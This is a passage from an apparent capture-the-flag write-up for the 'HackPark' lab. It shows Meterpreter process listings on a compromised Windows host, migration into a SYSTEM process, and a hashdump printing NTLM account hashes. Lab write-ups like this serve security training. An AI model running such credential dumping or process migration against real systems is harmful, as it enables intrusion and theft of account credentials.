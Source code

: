 ```
 904   672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 964   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1020  672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1156  672   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1216  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1236  672   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1292  672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1356  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1372  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1388  672   WService.exe          x86   0        NT AUTHORITY\SYSTEM           C:\PROGRA~2\SYSTEM~1\WService.exe
 1548  1388  WScheduler.exe        x86   0        NT AUTHORITY\SYSTEM           C:\PROGRA~2\SYSTEM~1\WScheduler.exe
 1652  672   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1740  740   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 1756  672   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1988  672   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2412  1200  WScheduler.exe        x86   1        HACKPARK\Administrator        C:\Program Files (x86)\SystemScheduler\WScheduler.exe
 2536  2412  Message.exe           x86   1        HACKPARK\Administrator        C:\PROGRA~2\SYSTEM~1\Message.exe
 2588  904   taskhostex.exe        x64   1        HACKPARK\Administrator        C:\Windows\System32\taskhostex.exe
 2664  2656  explorer.exe          x64   1        HACKPARK\Administrator        C:\Windows\explorer.exe
 3064  2612  ServerManager.exe     x64   1        HACKPARK\Administrator        C:\Windows\System32\ServerManager.exe

meterpreter > migrate 1756
[*] Migration completed successfully.
```

Finally I dumped the credential hashes for a fun flag.

```
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3352c0731470aabf133e0c84276adcba:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jeff:1001:aad3b435b51404eeaad3b435b51404ee:e7dd0bd78b1d5d7eea4ee746816e2377:::
```
